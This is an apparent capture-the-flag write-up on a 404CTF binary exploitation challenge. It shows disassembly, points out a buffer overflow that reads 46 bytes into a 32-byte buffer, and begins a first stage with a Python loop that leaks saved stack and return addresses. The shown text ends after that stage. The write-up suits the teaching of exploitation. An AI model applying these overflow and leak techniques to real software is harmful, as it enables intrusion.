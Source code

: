 ```
   0x0000000000000427 <+156>:	movzx  eax,BYTE PTR [rbp-0x4]
   0x000000000000042b <+160>:	test   al,al
   0x000000000000042d <+162>:	jne    0x3ab <main+32>
   0x0000000000000433 <+168>:	mov    eax,0x0
   0x0000000000000438 <+173>:	leave
   0x0000000000000439 <+174>:	ret
```

Basically, the binary reads inputs from stdin, and displays it immediately after, nothing complicated. This loops until the provided input has length 32 and finishes with a `\x00`.

![Checksec](https://github.com/MohandAcherir/Writeups/blob/main/404CTF/Screenshot%20from%202025-07-15%2010-29-15.png)

## The Vulnerability :
The vulnerability is fairly obvious looking at lines between 62 and 79:
```   
   0x00000000000003c9 <+62>:	lea    rax,[rbp-0x20]
   0x00000000000003cd <+66>:	mov    edx,0x2e
   0x00000000000003d2 <+71>:	mov    rsi,rax
   0x00000000000003d5 <+74>:	mov    edi,0x0
   0x00000000000003da <+79>:	call   0x369 <read>
```
The buffer length is supposed to be `32`, yet we can read up to `46` characters. So, we have a buffer overflow.


## Initial Analysis
The binary is statically linked, so no libc calls possible, or any `onegadget` trick.
Further more, we can not overwrite the stack beyond the RIP backup.

We also need a stack leak, and a .text leak, so that we can pivot and use gadgets.

## Stage 1: Leaks

First off, we need stack and code leaks, and to do that we can leak the saved RBP and the saved RIP for stack and code leaks respectively.

``` 
    for i in range(22, 45):
    data = p.recv()
    if i == 32 or i == 40:
        print(f"FOR I = {i}")
        print(data)
        addrs.append(extract(data))
    p.sendline(b"a"*(i))
```

